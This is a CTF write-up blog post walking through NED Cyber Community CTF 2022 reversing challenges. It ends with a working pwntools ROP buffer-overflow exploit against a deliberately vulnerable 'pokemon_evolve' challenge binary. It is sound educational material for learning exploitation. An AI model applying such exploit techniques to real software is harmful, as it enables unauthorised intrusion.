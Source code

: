 ```yaml
---
title: "NCC CTF 2022 - Reversing Challenges Writeup"
author: "Signore"
date: 2022-07-20
summary: "Walkthrough of Reversing & Binary Exploitation challenges presented at NED Cyber Community CTF 2022"
description: ""
categories: ["CTF Writeups"]
tags: ["r2", "reverse engineering"]
series: [""]
keywords: ["rev", "binary", "r2", "radare2", "rizin", "reverse engineering", "ghidra"]
ShowToc: true
cover:
  image: "images/cover-ncc-ctf-2022.png"
  caption: "cover"

---
```


:bulb: Rizin is a fork of radare2, one of the most popular reverse engineering tools.

## Reversing Warmup

We run `strings` on the binary and get our flag:

{{< terminal title="Terminal" >}}
![](chall-1.png)
{{< /terminal >}}

I later ran the binary, and it just gave the flag. Silly me!
{{< terminal title="Terminal">}}
![](chall-11.png)
{{< /terminal >}}
## Can You C Me

Running the binary asks us for correct password which we don't know yet.

Upon opening the binary with rizin, we can see our flag right there but it's scattered. We can also see another string which resembles a password.
{{< terminal title="Terminal" >}}
![](chall-20.png)
{{< /terminal >}}

Providing that password to the binary, we get our flag:
{{< terminal title="Terminal" >}}
![](chall-21.png)
{{< /terminal >}}

## Modulus Encryption

The flag for the challenge has been encrypted using the `encryption.py` python script and the generated output is the `output.txt` file. Our goal is to decrypt the flag.

The script is taking input data as `flag.txt`. The `encrypt` function gets the unicode code of each character present in the file with `ord()` and adds some integers to it. Then, it converts the characters back to ASCII with `chr()`.
{{< terminal title="Terminal" >}}
![](chall-30.png)
{{< /terminal >}}

We take the encrypted data `output.txt` as input. After getting the unicode, instead of adding, we modify the original technique a bit by subtracting the integers and then converting back to ASCII.

Upon running the modified script, we get the flag.
{{< terminal title="Terminal" >}}
![](chall-31.png)
{{< /terminal >}}

## Make it Go!

Running the binary asks us to enter password.

Opening the challenge file in `rizin`, we `seek` to `main` function and disassemble it. 
{{< terminal title="Terminal" >}}
![](chall-40.png)
{{< /terminal >}}

Going a bit down, we can see the `Enter_Password` string which is later being printed in the console with a `call` to `Fprint`:
{{< terminal title="Terminal" >}}
![](chall-41.png)
{{< /terminal >}}

Going futher down, we see there is the call to `Fscanln` which is taking user input. In the next instructions, there's a string comparison being made and then there is the `jne` (jump if not equal) instruction from which we can deduce that there's a condition being checked.

We can see that the user input is being compared to `0x45ea856`.
{{< terminal title="Terminal" >}}
![](chall-42.png)
{{< /terminal >}}

On providing the hex number to our binary, we get the flag:
{{< terminal title="Terminal" >}}
![](chall-43.png)
{{< /terminal >}}


## Pokemon Evolution

:bulb: [Here](http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf) is a nice resource for ROP.

We are given challege files as `pokemon_challenge.zip`. The binary prints out some ASCII art and asks us for input `Feed :`

We open the challenge binary in `cutter` (GUI for rizin). I have the decompiler plugin installed, so we navigate to `Decompiler` tab.

Along `main` and `register_name` functions, we can see another function `hacked`. In the decompiled code, we can see that an `if` condition is checking the function arguments. We can also see the values against which the params are being compared.

![](chall-50-cutter.png)

After trying random input lengths for quite a bit, the offset for RIP comes out to be `24`.
{{< terminal title="Terminal" >}}
![](chall-51.png)
{{< /terminal >}}

Now that we have RIP under control, we need to find the memory addresses of `hacked` funtion and ROP gadgets.

As we studied [here](http://localhost:1313/blog/posts/pwn-0x00-warmup/#03-architectures-comparison), if the binary was 32-bit, we could have just pushed the function arguments onto the stack. But, as our binary is 64-bit and arguments are being accessed through `registers`, we'll take the help of ROP gadgets to achieve our goal. 

We can find the memory address of the `hacked` function with gdb and ROP gadgets with `ropper`.

{{< terminal title="Terminal" >}}
![](chall-52-0.png)
{{< /terminal >}}
{{< terminal title="Terminal" >}}
![](chall-52-1.png)
{{< /terminal >}}

Putting it all together, our final exploit script looks like this:
{{< terminal title="Terminal">}}
```py {linenos=true}
#!/usr/bin/python
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pokemon_evolve'
elf = context.binary = ELF(exe, checksec=False)

padding="A"*24
hacked_function_addr = 0x40119a
pop_rdi = 0x401196
pop_rsi = 0x401198

payload = flat(padding, pop_rdi, 0xdeadbeefdeadbeef,
    pop_rsi, 0xc0debabec0debabe, hacked_function_addr)

io = start()
io.recvuntil("Feed :")
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

On running the exploit, we successfully execute `hacked` function and bypass the conditional check by providing right arguments which, along with the beautiful dragon, returns the contents of `flag.txt`.
{{< terminal title="Terminal" >}}
![](chall-53.png)
![](chall-54.png)
{{< /terminal >}}

Since I did the challenge really late, the remote server wasn't responding anymore and I could pwn the binary locally only.

Initially, my exploit wasn't working and I was going mad about it.<br>
Later, @MoLover shared his exploit script with offset `24` while my exploit had `22`. Thanks to him, as soon as I changed the offset of RIP in my exploit it, eventually, worked!